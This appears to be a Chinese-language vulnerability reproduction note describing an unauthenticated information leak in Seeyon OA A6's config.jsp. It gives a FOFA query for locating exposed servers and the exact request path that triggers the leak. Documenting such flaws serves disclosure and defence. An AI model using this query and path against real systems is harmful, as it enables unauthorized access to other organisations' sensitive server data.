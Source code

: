# 致远OA A6 config.jsp 敏感信息泄漏漏洞

## 漏洞描述

致远OA A6 config.jsp页面可未授权访问，导致敏感信息泄漏漏洞，攻击者通过漏洞可以获取服务器中的敏感信息

## 漏洞影响

```
致远OA A6
```

## FOFA

```
body="yyoa" && app="致远互联-OA"
```

## 漏洞复现

登录页面

![image-20220520152551136](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201525328.png)

验证POC

```
	/yyoa/ext/trafaxserver/SystemManage/config.jsp
```

![image-20220520152601778](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201526835.png)